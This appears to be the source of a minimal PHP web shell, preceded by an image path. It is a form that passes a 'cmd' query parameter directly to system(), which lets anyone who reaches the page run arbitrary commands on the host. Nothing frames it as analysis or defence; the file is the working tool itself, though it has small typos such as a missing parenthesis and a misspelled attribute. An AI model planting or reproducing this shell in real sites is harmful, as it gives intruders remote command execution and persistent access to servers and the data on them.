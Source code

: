 <html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']; ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" valuse="Execute">
</form>
<pre>
<?php
	if(isset($_GET['cmd']))
	{
	      system($_GET['cmd']);
	}
   ?>
   </pre>
   </body>
   </html>
